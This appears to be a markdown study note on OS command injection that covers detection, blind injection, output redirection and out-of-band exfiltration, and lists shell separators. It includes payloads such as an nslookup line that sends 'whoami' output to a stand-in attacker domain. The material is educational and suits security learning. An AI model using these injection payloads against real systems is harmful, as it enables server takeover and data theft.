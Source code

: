 
## what is OS command injection 
* OS command injection is also known as shell injection or RCE
* it is vulnerability that allow an attacker to execute any command on the system and take full control of the server.
* attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.
* the vulnerability may present at any parameter that may directly supply it to the internal shell but we need some proxy to check that it may interact with the hidden parameter or in the API request.

# find and exploit os-command injection vulnerability

## Use full command
|Purpose |Linux|Windows|
|---|---|---|
|name of current user|'whoami'|'whoami'|
|OS| 'uname -a'|'ver'|
|Network configuration|'ifconfig'or'ipaddr|'ipconfig/all'|
|Network Connection|'nestat -an'|'netstat -an'|
|Running Process|'ps -ef'|'tasklist'|

## Blind Command injection vulnerability 
* many instance of os COmmand injection are blind vulnerabilities, means application does not return output from the command with http response.
* Consider a web site that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details. For example: 
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`

## Detecting Blind OS Command Injection using Time Delay.
* for generating time delay the `ping` command is use full because it send number of ICMP packet so to complete this command application takes time and delay generates in the application response time.
* put `|| && ` like terminal command ending or ';' to terminate the command or giving error, analyze more and try to exploit RCE.

## Exploiting Bling RCE BY Redirecting output
* You can redirect the output from the injected command into a file within the web root that you can then retrieve using your browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:
`& whoami > /var/www/static/whoami.txt &`

* You can then use your browser to fetch `https://vulnerable-website.com/whoami.txt` to see the output;
## Exploiting blind OS command injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques)

### Blind-os command injection Out-of-band interaction
* You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
* `& nslookup kgji2ohoyw.web-attacker.com &`
* use burp Collaborator for OAST.

### Blind-os-command injection Out-Of-band data exfiltration.
* ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`` payload here in between \`\`we can add our command and execute lookup.
* response in collaborator  `wwwuser`.id.collaborator.net

## ways of injection OS commands
* \&
* \&\&
* |
* ||

only unix-based os 
* \;
* Newline(0x0a or \\n)

On Unix-based system we use
`` `command` or $(command)``
